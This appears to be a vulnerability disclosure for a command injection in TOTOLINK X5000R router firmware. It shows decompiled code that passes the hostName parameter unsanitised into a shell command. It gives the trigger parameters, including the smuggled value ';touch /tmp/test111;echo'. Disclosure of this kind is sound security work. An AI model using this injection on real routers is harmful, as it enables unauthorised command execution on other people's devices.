

# TOTOLINK router X5000R_EasyMesh_Firmware Command injection
## Firmware version：X5000R_V9.1.0cu.2350_B20230313
https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/218.html


Problem function:`sub_4242EC`
```
if ( proto != 6 )
    {
      v5 = (const char *)websGetVar(a1, "hostName");
      v26 = websGetVar(a1, "dhcpMtu");
      Uci_Set_Str(10, "wan", "proto", "dhcp");
      Uci_Set_Str(10, "wan", "proto_backup", "dhcp");
      Uci_Set_Str(10, "wan", "dmtu", v26);
      Uci_Set_Str(10, "wan", "mtu", v26);
      if ( *v5 )
      {
        Uci_Set_Str(11, "main", "hostname", v5);
        Uci_Set_Str(10, "wan", "hostname", v5);
        if ( (unsigned int)(snprintf((int)v58, 128, "echo  '%s'  > /proc/sys/kernel/hostname", v5) + 1) >= 0x81 )
          goto LABEL_30;
        CsteSystem(v58, 0);
      }
      goto LABEL_8;
    }
   ```

`topicurl` is set to `setWanCfg`

`proto` is set to `9` to enter the problem branch

`hostName` is set to = `';touch /tmp/test111;echo'`

Send http request to trigger vulnerability




File is created


